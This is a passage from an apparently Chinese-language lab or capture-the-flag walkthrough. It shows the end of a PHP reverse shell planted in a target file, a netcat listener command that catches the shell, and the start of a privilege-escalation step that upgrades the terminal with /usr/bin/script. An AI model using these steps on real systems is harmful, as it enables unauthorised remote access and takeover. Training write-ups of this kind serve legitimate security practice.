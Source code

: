 ```
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>
```



本地开启监听

```
nc -lvp 283
```

![image-20250329162959647](./assets/image-20250329162959647.png)



保存后自动触发

![image-20250329163116966](./assets/image-20250329163116966.png)



## 提权

### 转换终端

```
/usr/bin/script -qc /bin/bash /dev/null
```

![image-20250329163140790](./assets/image-20250329163140790.png)
